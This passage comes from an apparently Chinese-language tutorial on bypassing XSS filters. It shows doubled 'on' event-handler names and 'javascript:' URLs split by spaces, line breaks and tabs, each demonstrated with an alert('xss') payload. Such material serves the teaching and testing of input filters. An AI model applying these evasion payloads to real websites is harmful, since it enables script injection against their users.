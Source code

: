 上述中对on替换为空。

\<input oonnfocus="alert('xss');"> 

## **4.3 空格回车TAB绕过**

由于js通常是以分号为结尾，当解析到完整语句并且行尾存在换行符的情况下就可以忽略掉分号，若解析确定不是完整语句，则会继续处理，直到语句结束或出现分号。

### **4.3.1 空格绕过**

示例：

```html
<img src="javascript:alert('xss');">
```

替换：

```html
<img src="java script:alert('xss');">
```

### **4.3.2 回车绕过**

示例：

```html
<img src="javascript:alert('xss');">
```

替换：

```html
<img src="java
script:
alert('xss');">
```



### **4.3.3 TAB绕过**

示例：

```html
<img src="javascript:alert('xss');">
```

替换：

```html
<img src="javasc	ript:alert('xss');">
```



## **4.4 注释绕过**

示例：

